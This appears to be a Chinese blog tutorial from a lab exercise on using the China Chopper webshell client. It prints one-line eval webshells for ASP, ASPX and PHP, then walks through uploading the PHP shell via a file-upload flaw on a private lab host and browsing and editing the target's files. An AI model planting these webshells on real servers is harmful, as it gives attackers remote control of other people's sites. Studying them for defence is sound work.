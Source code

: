 ```yaml
---
title: 中国菜刀配合一句话木马基本使用
date: 2021-12-27 15:48:22
tags: 
- 木马
- 一句话
---
```


## 中国菜刀配合一句话木马基本使用

目的：
* 学习一句话木马
* 学习菜刀的使用

原理：
菜刀的主要功能是用来连接一句话木马的，asp、aspx、php的一句话菜刀都可以连，只是这几种一句话语句不一样。

* asp的一句话是：`<%eval request(“pass”)%>`

* aspx的一句话是：`<%@ Page Language=”Jscript”%><%eval(Request.Item["pass"],”unsafe”);%>`

* php的一句话是：`<?php @eval($_POST['pass']);?>`

过程：

* 打开火狐，http://192.168.1.3:8080/up，打开文件上传漏洞演示脚本，点击中国菜刀连接一句话木马![image-20211228105130236](https://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105130236.png)

* 点击浏览，上传php文件，木马地址为http://192.168.1.3:8080/up/images/lubr.php![image-20211228105156422](https://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105156422.png)

* 打开中国菜刀

* 添加木马地址，密码为lubr，脚本类型php(eval)![image-20211228105329855](https://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105329855.png)

* 添加到主界面![image-20211228105353101](https://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105353101.png)

* 右键文件管理，即可查看目标服务器的完整目录，也可进行创建文件，修改文件，修改和下载等相关操作![image-20211228105418680](https://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105418680.png)

* 右键单击浏览网站，即可实现浏览器功能，浏览该站点![image-20211228105439630](https://121.5.125.62:88/image/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105439630.png)



